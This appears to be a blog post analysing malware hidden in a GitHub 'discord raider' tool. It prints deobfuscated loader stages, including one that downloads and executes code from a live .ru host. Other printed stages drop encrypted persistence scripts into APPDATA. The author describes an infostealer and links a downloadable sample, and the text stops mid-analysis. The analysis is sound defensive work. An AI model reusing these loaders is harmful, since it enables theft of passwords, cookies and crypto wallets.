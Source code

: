 {"title":"Malware hidden within an open source 'discord raider'", "source":"NONE", "date":"8-23-2024", "tags":["cybersecurity","malware"], "description":"Finding the malware hidden in an open source 'discord raider'"}


![This the github repo which contains the malware](/static/11/main.png)

This is the github repo which contains the malware

Hello, I have found something interesting, malware hidden within open source 'discord raider' tools. 

First a quick explanation, a 'discord raider' is a piece of software that spams a server with fake accounts which send messages repeatedly in an attempt to annoy people. These 'tools' are mostly used by 12 year skids, who feel like a master hacker by downloading garbage on to the family computer.

## Part one - github

The github repo for the malware was created about a day ago from writing this, intrestingly enough, the majority of the commits are replacing the single letter in a text file.
The more interesting thing is the account that owns the github repo, one `Michzael-Fuchslocher`, alongside the discord raid repo, they have several other repos, all discord related skid tools. In all of these repos the pattern of the commits being single letter edits continues. I looked at the code for some of these other repos, and they all seem to contain the same malware.

## Part two - the code itself

The main file contains a single line of semi-colon seperated python code, here is what it looks like when the formatting has been fixed.

    #!python
    import os
    os.system('pip install cryptography')
    os.system('pip install fernet')
    os.system('pip install requests')
    from fernet import Fernet
    import requests
    exec(Fernet(b'eORIbqIAo0lgLsUQKh65VDMfpLQ8xTJeOBYNqzILkqc=').decrypt(b'gAAAAABmxNtp4JGXQHPnCdjhaMgtj9NuIVwKOlXS6F_2WmIe3LPVT99J4L_LQTFe7l5E3fxvsHpbwHDOKxE-rr2HZHybMVtOhaDRzcTTmInOhYst6YzoeX8AwdM-3PYCdWDk4S1_EvIe1SjmZcc0N6r86fiT2_keIjsRXlugsw6ji1QUq8K4YV2KNTv0LdE9lQr_t_dKTpszBnN8mg0XElqMPd7UfhlXUQ=='))

You can see that this first payload is attempting to install the librarys `cryptography`, `fernet`, and `requests`. It then imports `Fernet` and `requests` and uses `Fernet` to unencrypt a string, which seems to be the next piece of malware.
This string is then executed by using the builtin `exec()` function.

Replacing the exec with a print gives you this:

    #!python
    exec(requests.get('https://1312services.ru/paste?userid=15').text.replace('<pre>','').replace('</pre>',''))

This payload is quite a lot simpler than the first one, and it can be seen that it gets another payload from `https://1312services.ru/paste?userid=15`, which it then replaces the pre formatted tags.
Then this new payload is also executed.
Again replacing the exec with a print gives you this payload:


    import sys
    import os
    content = """
        import subprocess
        import sys
        subprocess.run(["cmd.exe", "/c", sys.executable, "-m", "pip", "install", "fernet"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        from fernet import Fernet
        exec(Fernet(b'M_ne2Y0BqY6Ba6AupGD9SvRH0bMGU2LsYexHftKoI54=').decrypt(b'gAAAAABmyMTtneMFv9I8mobxRSmO0v9hVnMrW5TBOPHfJDFVt0mKMSps003PQ-...').decode())
    """
    gruppe_path = os.path.join(os.getenv('APPDATA'), 'gruppe.py')

    with open(gruppe_path, 'w') as file:
        file.write(content)

    os.system(sys.executable + " " + gruppe_path)

This payload writes another payload into a file called `gruppe.py` on the `appdata` directory on windows.
After running this payload it writes the `content` variable into that `gruppe` file, which again installs and imports fernet, which is used to decrypt a new payload which is then executed. Also the way that the install script is written, it can be seen that this is windows exculsive malware, due to it using `cmd.exe`.
This new payload is to large to be placed here, but I will link it here:
[Download the payload, THIS IS ACTUALLY MALWARE, the password is 'iknowwhatiamdoing'](/static/11/step5.zip)

This payload seems to be just a generic infostealer, it steals cookies and saved passwords from all browsers, steals crypto wallet files, and injects malware into the `exodus` and `atomic` crypto wallets.
It also steals the telegram data from telegram desktop.
It then sends all of this data to `1312services.ru`, which seems to be to main server in this operation, all the data is also sent with a user id, in this case `15`, this userid is specified in the first payload download from `1312services`.

There is another download of a file called `hvnc.py` which is how they maintain access to your computer. This file contains this:

    import os
    import subprocess

    script = """
    from fernet import Fernet
    import os

    exec(Fernet(b'ocuQXIbJfEWtV8nf7MccHcnFVqT0NzhpK6bBOmmPD68=').decrypt(b'gAAAAABmdbJ2mZ6A1hL6kfHMTO9jOQFHnkBCnwYMNUJRpdTe9LaNihMGPX8FCOMzidgbTHBRia-...').decode())
    """

    appdata = os.environ.get('APPDATA', '')
    if appdata:
        # create microsoft folder if it doesn't exist
        microsoft_folder = os.path.join(appdata, 'Microsoft')
        if not os.path.exists(microsoft_folder):
            os.mkdir(microsoft_folder)
        script_path = os.path.join(appdata, 'Microsoft', 'runpython.py')
        with open(script_path, 'w') as script_file:
            script_file.write(script)
    subprocess.Popen(['python', script_path], creationflags=subprocess.CREATE_NO_WINDOW)

This writes the `script` variable into a file called `runpython.py` in the `Microsoft` folder in the `appdata` folder.
Then `runpython` decrypts and runs this payload:

